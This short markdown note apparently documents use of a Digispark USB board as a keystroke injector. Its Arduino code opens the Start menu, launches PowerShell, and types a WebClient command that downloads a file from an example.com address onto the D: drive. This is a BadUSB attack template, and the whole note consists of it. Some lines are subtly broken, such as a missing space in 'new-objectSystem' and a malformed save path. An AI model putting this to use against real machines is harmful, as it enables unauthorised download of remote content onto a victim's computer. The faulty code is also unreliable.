 # Digispark 使用
```
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_ESC);
Keyboard.releaseAll();
Keyboard.print("powershell");

Keyboard.press(KEY_RETURN);

Keyboard.print("(new-objectSystem.Net.WebClient).DownloadFile('http://www.example.com/example.html','d:lalala.html')");
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQzNTQyNzc5OV19
-->